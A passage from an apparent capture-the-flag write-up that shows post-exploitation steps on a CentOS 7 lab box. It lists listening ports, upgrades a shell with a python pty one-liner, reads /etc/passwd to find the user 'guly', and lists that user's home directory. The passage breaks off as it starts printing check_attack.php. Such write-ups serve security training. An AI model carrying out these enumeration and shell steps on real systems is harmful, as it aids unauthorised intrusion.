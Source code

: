 ```
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

CentOS Linux release 7.6.1810 (Core) 
CentOS Linux release 7.6.1810 (Core) 
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      128          *:22                       *:*                  
LISTEN     0      10     127.0.0.1:25                       *:*                  
LISTEN     0      128         :::80                      :::*                  
LISTEN     0      128         :::22                      :::*                  
sh-4.2$ 

```

Upgrade the shell using python:

```
sh-4.2$ which python
which python
/usr/bin/python
sh-4.2$ which python3
which python3
which: no python3 in (/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin)
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ 
```

Looking in /home, we see there is a directory for "guly". We can confirm "guly" is a user on the box by checking the /etc/passwd file. Looking in the "guly" directory, we find two interesting files. Let's have a look at them.

```
bash-4.2$ cat /etc/passwd | grep -v nologin
cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
guly:x:1000:1000:guly:/home/guly:/bin/bash

bash-4.2$ pwd
pwd
/home/guly
bash-4.2$ ls -lah
ls -lah
total 28K
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
bash-4.2$ cat check_attack.php
cat check_attack.php
<?php
require '/var/www/html/lib.php';
```
